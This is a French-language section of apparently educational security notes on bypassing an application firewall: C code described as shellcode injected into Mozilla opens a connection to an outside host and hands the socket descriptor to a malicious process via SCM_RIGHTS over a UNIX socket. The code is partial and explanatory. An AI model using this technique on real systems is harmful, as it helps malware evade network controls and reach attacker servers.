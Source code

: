 ***

#### 4. Contournement de firewall applicatif

**Le problème**

```
Firewall applicatif = ACLs basées sur l'application
→ Mozilla autorisé = tremplin !
```

**Objectif**

1. **Injecter un `connect()`** dans Mozilla
2. **Récupérer le descripteur** de fichier
3. **Transférer le descripteur** au processus malicieux

**Schéma de l'attaque**

```
[Processus malicieux] ←──── Descripteur ────→ [Mozilla]
                                                  │
                                              connect()
                                                  │
                                              [Serveur externe]
```

**Code d'injection dans Mozilla**

```c
// Shellcode injecté dans Mozilla :
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
struct sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(80);
inet_aton("192.168.1.100", &addr.sin_addr);

// Connexion (autorisée car c'est Mozilla !)
connect(sockfd, (struct sockaddr*)&addr, sizeof(addr));

// Transférer le descripteur au processus malicieux
transfer_fd_via_unix_socket(sockfd, malicious_process_socket);
```

**Transfert de descripteur via socket UNIX**

```c
// Fonctionnalité méconnue : transmettre un FD entre processus !
struct cmsghdr *ch;
struct msghdr msg;
char ancillary[CMSG_SPACE(sizeof(fd))];

ch = CMSG_FIRSTHDR(&msg);
ch->cmsg_level = SOL_SOCKET;
ch->cmsg_type = SCM_RIGHTS;  // ← La magie !
*(int*)CMSG_DATA(ch) = fd;   // Le descripteur à transférer

sendmsg(unix_sockfd, &msg, 0);
```
